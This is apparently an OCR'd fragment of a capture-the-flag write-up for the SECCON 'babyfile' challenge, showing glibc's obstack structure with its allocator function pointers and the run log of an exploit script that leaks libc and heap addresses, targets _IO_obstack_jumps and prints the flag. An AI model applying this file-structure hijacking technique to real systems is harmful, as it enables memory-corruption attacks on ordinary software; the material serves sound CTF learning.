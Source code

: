 ```py
  struct _obstack_chunk *(*chunkfun) (void *, long);
  void (*freefun) (void *, struct _obstack_chunk *);
  void *extra_arg;              /* first arg for chunk alloc/dealloc funcs */
  unsigned use_extra_arg : 1;     /* chunk alloc/dealloc funcs take extra arg */
  unsigned maybe_empty_object : 1; /* There is a possibility that the current
				      chunk contains a zero-length object.  This
				      prevents freeing the chunk if we allocate
				      a bigger chunk to replace it. */
  unsigned alloc_failed : 1;      /* No longer used, as we now call the failed
				     handler on error, but retained for binary
				     compatibility.  */
};

nasm@off:~/Documents/pwn/seccon/babyfile$ time python3 exploit.py REMOTE HOST=babyfile.seccon.games PORT=3157
[*] '/home/nasm/Documents/pwn/seccon/babyfile/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/nasm/Documents/pwn/seccon/babyfile/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to babyfile.seccon.games on port 3157: Done
[*] libc: 0x7fe2bc538000
[*] heap: 0x55fd27776000
[*] _IO_obstack_jumps: 0x7fe2bc721260
[*] Switching to interactive mode
SECCON{r34d_4nd_wr173_4nywh3r3_w17h_f1l3_57ruc7ur3}
[*] Got EOF while reading in interactive
$
"""
```

